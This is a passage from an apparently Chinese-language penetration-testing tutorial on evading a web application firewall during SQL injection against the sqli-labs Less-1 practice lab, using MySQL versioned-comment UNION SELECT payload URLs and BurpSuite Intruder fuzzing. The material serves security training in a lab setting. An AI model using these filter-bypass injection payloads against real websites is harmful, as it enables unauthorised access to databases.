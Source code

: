 ```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*!11440*//*!11440select*/
```

> 发现依然拦截

### 1.2.1.1 特殊函数爆破

在 BurpSuite 开启拦截

在语句之间的注释添加数字 1，2

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*12*//*!11440select*/
```

在 HackBar 提交

![](./../../../images/SQLi_Bypass/%E5%9C%A8%20HackBar%20%E6%8F%90%E4%BA%A4.png)

将请求发送到 Intruder 标注注释中的 1 和 2 为 payload

![](./../../../images/SQLi_Bypass/%E5%B0%86%E8%AF%B7%E6%B1%82%E5%8F%91%E9%80%81%E5%88%B0%20Intruder%20%E6%A0%87%E6%B3%A8%E6%B3%A8%E9%87%8A%E4%B8%AD%E7%9A%84%201%20%E5%92%8C%202%20%E4%B8%BA%20payload.png)
